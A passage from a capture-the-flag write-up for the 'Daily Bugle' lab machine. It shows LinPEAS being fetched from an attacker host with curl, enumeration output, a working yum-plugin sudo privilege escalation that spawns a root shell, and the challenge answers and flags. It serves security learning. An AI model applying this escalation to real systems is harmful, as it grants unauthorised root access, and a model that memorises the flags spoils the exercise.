┌──(l0n3m4n㉿kali)-[~/tools/priv-esc]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
> target machine
```bash
[jjameson@dailybugle ~]$ curl http://10.2.4.61:8080/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  842k  100  842k    0     0  82272      0  0:00:10  0:00:10 --:--:--  165k
[jjameson@dailybugle ~]$ ls
linpeas.sh  user.txt
[jjameson@dailybugle ~]$ chmod +x linpeas.sh 
[jjameson@dailybugle ~]$ ls -al linpeas.sh
-rwxrwxr-x 1 jjameson jjameson 862777 Oct 26 03:43 linpeas.sh
[jjameson@dailybugle ~]$ 

```
# Linpeas
- **LinPEAS** (Linux Privilege Escalation Awesome Script) is a powerful post-exploitation tool used in penetration testing and security assessments. Its primary purpose is to help security professionals identify potential privilege escalation vectors on Linux systems.
## Checking Users and groups
```bash
╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash

╔══════════╣ Users with console
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1(bin) gid=1(bin) groups=1(bin)
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
uid=11(operator) gid=0(root) groups=0(root)
uid=12(games) gid=100(users) groups=100(users)
uid=14(ftp) gid=50(ftp) groups=50(ftp)
uid=192(systemd-network) gid=192(systemd-network) groups=192(systemd-network)
uid=2(daemon[0m) gid=2(daemon[0m) groups=2(daemon[0m)
uid=27(mysql) gid=27(mysql) groups=27(mysql)
uid=3(adm) gid=4(adm) groups=4(adm)
uid=4(lp) gid=7(lp) groups=7(lp)
uid=48(apache) gid=48(apache) groups=48(apache)
uid=5(sync) gid=0(root) groups=0(root)
uid=6(shutdown) gid=0(root) groups=0(root)
uid=7(halt) gid=0(root) groups=0(root)
uid=74(sshd) gid=74(sshd) groups=74(sshd)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=81(dbus) gid=81(dbus) groups=81(dbus)
uid=89(postfix) gid=89(postfix) groups=89(postfix),12(mail)
uid=99(nobody) gid=99(nobody) groups=99(nobody)
uid=998(chrony) gid=996(chrony) groups=996(chrony)
uid=999(polkitd) gid=998(polkitd) groups=998(polkitd)
```
## Software Information
```bash

╔══════════╣ Useful software
/usr/bin/base64
/usr/bin/curl
/usr/bin/make
/usr/bin/nc
/usr/bin/ncat
/usr/bin/nmap
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/sudo
/usr/bin/wget

```

## Checking suid permission
```bash 
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x. 1 root root 73K Aug  8  2019 /usr/bin/chage
-rwsr-xr-x. 1 root root 77K Aug  8  2019 /usr/bin/gpasswd
-rws--x--x. 1 root root 24K Aug  8  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rws--x--x. 1 root root 24K Aug  8  2019 /usr/bin/chsh
-rwsr-xr-x. 1 root root 41K Aug  8  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x. 1 root root 32K Aug  8  2019 /usr/bin/su
---s--x--x. 1 root root 144K Aug  8  2019 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x. 1 root root 44K Aug  8  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x. 1 root root 32K Aug  8  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x. 1 root root 57K Aug  8  2019 /usr/bin/crontab
-rwsr-xr-x. 1 root root 24K Aug  8  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x. 1 root root 28K Aug  8  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x. 1 root root 36K Apr 10  2018 /usr/sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 11K Apr 10  2018 /usr/sbin/pam_timestamp_check
-rwsr-xr-x. 1 root root 12K Aug  8  2019 /usr/sbin/usernetctl
-rwsr-xr-x. 1 root root 16K Aug  8  2019 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-x---. 1 root dbus 57K Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper

``` 
## Network Information
```bash
 
╔══════════╣ Hostname, hosts and DNS
dailybugle
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4
::1         localhost localhost.localdomain localhost6 localhost6.localdomain6
; generated by /usr/sbin/dhclient-script
search eu-west-1.compute.internal
nameserver 10.0.0.2

╔══════════╣ Interfaces
default 0.0.0.0
loopback 127.0.0.0
link-local 169.254.0.0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:99:2c:48:ab:11 brd ff:ff:ff:ff:ff:ff
    inet 10.10.112.232/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2537sec preferred_lft 2537sec
    inet6 fe80::99:2cff:fe48:ab11/64 scope link 
       valid_lft forever preferred_lft forever

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp    LISTEN     0      100    127.0.0.1:25                    *:*                  
tcp    LISTEN     0      50        *:3306                  *:*                  
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      100       [::1]:25                 [::]:*                  
tcp    LISTEN     0      128    [::]:80                 [::]:*                  
tcp    LISTEN     0      128    [::]:22                 [::]:*                  

```

## Home files
```bash
╔══════════╣ Files inside /home/jjameson (limit 20)
total 860
drwx------. 3 jjameson jjameson    131 Oct 26 02:12 .
drwxr-xr-x. 3 root     root         22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson      9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson     18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson    193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson    231 Aug  8  2019 .bashrc
drwx------  2 jjameson jjameson     60 Oct 26 02:12 .gnupg
-rwxrwxr-x  1 jjameson jjameson 862777 Oct 26 02:10 linpeas.sh
-rw-rw-r--  1 jjameson jjameson     33 Dec 15  2019 user.txt

```
## OS Information
```bash
[jjameson@dailybugle etc]$ cat os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

```

## Checking for potential PE vector
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
## List of user's privileges 
```bash
$ sudo -l 
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```
- I tried checking on GTFOBins, and the results were very promising. You should always look for living-off-the-land binaries for potential privilege escalation vectors. After scanning with LinPEAS, it highlighted `orange` meaning that yum is a potential for privilege escalation.
- So what is `YUM` anyway?
    - `YUM` (Yellowdog Updater, Modified) is a package management utility for RPM-based Linux distributions, such as CentOS, Red Hat Enterprise Linux (RHEL), and Fedora. It simplifies the process of installing, updating, and removing software packages.

## Checking root permission
```bash
[jjameson@dailybugle ~]$ ls -al $(which yum)
-rwxr-xr-x. 1 root root 801 Aug  8  2019 /usr/bin/yum
```

## Gaining root user 
```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)

[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF

[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF

[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/bash','/bin/bash')
> EOF

[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Failed to set locale, defaulting to C
Loaded plugins: y
No plugin match for: y

[root@dailybugle jjameson]# id 
uid=0(root) gid=0(root) groups=0(root)

[root@dailybugle jjameson]# cd /root

[root@dailybugle ~]# ls 
anaconda-ks.cfg  root.txt
```
## Flags
- Access the web server, who robbed the bank?
	- ans: **spiderman**
 - What is the Joomla version?
   	- ans: **3.7.0**
- What is Jonah's cracked password?
	- ans: **spiderman123**
- What is the user flag?
   	- ans: **27a260fe3cba712cfdedb1c86d80442e**
- What is the root flag?
  	- ans: **eec3d53292b1821868266858d7fa6f79**

## Go Further if possible
- **Maintaining Access**
- **Data Exfiltration**
- **Covering Tracks**
 
## Thanks for reading and happy hacking :)
